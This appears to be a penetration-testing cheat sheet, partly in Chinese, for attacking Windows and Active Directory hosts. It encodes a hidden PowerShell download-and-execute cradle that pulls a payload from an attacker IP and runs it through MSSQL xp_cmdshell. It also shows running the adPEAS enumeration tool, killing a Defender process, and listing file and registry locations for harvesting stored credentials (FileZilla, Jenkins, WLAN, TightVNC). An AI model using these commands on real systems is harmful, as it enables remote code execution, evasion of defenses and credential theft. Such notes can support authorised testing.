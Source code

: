 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```


# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```
# 杀进程
```
tasklist /FI "IMAGENAME eq NisSrv.exe"


taskkill /pid 5672 -f

```


# Juicy files

## All user folders
## Limit this command if there are too many files ;)
```
tree /f /a C:\Users
```

## Web.config
```
C:\inetpub\www\*\web.config
```

## Unattend files
```
C:\Windows\Panther\Unattend.xml
```


## RDP config files
```
C:\ProgramData\Configs\
```


## Powershell scripts/config files
```
C:\Program Files\Windows PowerShell\
```


## PuTTy config
```
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty
```

## FileZilla creds
```
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml
```

## Jenkins creds (also check out the Windows vault, see above)
```
C:\Program Files\Jenkins\credentials.xml
```


## WLAN profiles
```
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml
```

## TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
```
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```